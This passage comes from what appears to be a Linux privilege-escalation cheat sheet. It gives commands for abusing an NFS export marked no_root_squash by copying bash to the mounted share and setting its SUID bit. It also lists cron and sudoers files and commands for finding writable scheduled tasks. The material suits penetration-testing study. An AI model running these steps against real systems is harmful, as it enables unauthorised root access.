 ## 6] NFS Root Squashing

When  **no_root_squash**  appears in  `/etc/exports`, the folder is shareable and a remote user can mount it

```
# create dir
mkdir /tmp/nfsdir  

# mount directory
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir
cd /tmp/nfsdir

# copy wanted shell
cp /bin/bash . 	

# set suid permission
chmod +s bash 	
```



## 7] Scheduled tasks

### CRON JOBS

Check if you have access with write permission on these files.  


```
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*

```
